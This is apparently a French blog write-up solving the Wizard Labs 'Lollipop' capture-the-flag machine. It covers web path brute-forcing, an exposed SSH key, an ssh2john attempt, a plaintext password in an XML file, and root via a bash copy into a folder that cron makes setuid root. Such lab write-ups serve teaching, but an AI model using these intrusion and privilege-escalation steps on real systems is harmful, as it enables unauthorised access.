 ```yaml
---
title: Solution du CTF Lollipop de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Lollipopshell
-------------

Pour arriver à la fin de ce CTF de *Wizard Labs* il aura fallut utiliser de bonnes wordlist et enumérer les fichiers et dossier sur le serveur web.  

Pour cela j'ai porté mon dévolu sur [les listes raft de fuzzdb](https://github.com/fuzzdb-project/fuzzdb/tree/master/discovery/predictable-filepaths/filename-dirname-bruteforce).  

On trouve ainsi un dossier caché *.ssh* avec la clé qui va avec :  

```
/index.html (Status: 200)
/mail.php (Status: 200)
/function.php (Status: 200)
/.ssh (Status: 301)
```

Et dans les scripts on découvre aussi un script *checker.php* qui demande à recevoir le résultat de 6\*6.  

Si on rentre un résultat non numérique on obtient une erreur 500 (page type d'Apache) avec un mail d'administration *mrl0llipop@localhost*.  

Je tiens à préciser que malgré tous mes efforts ce script ne semble pas vulnérable à la moindre injection.  

La clé SSH est malheureusement protégée par une passphrase. On est alors tenté d'utiliser l'utilitaire *ssh2john* pour tenter de la retrouver :  

```
$ /usr/share/john/ssh2john.py id_rsa 
id_rsa:$sshng$1$16$0AF431720D358A422BF9C1D77BDF72DF$1200$f5dce6fe7--- snip ---16ec902cb75a90ab0
```

Malheureusement cela n'aboutit nul part.  

En fouillant un peu plus on trouve le commentaire suivant en commentaire dans la page d'index :  

```html
<!--Todo : store passwords using a better way than xml files  -->
```

On bruteforce alors les extensions .xml et on trouve le fichier *passwords.xml* suivant :  

```html
<text><password>:3:!4]AFCH:3#D[%</password></text>
```

Tous ces éléments réunis nous permettent un accès SSH sur la machine en tant que *mrl0llipop*.  

En fouillant les binaires setuid du système je remarque un dossier où les binaires semblent *upgradés* (notez le *s* dans les permissions) à intervalle régulier :D   

```
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwxrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwxrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 184
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
```

Moi aussi je veux jouer, on va juste copier un *bash* dans ce dossier :  

```
mrl0llipop@Lollip0p:/suided_binaries$ ls -l
total 204
-rwsrwxrwx 1 root root  16664 Jan  8 02:20 devloop
-rwsrwxrwx 1 root root  44304 Jan  6 09:26 mount
-rwsrwxrwx 1 root root 140944 Jan  6 09:25 sudo
mrl0llipop@Lollip0p:/suided_binaries$ ./devloop
root@Lollip0p:/suided_binaries# cd /root
root@Lollip0p:/root# cat root.txt
030bd309b88360dc270d8760a212fb0b
root@Lollip0p:/root# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command
* * * * * chown -R root.root /suided_binaries
* * * * * chmod -R 4777 /suided_binaries
```

Le plus dur aura été l'énumération :p

*Published November 17 2020 at 14:12*
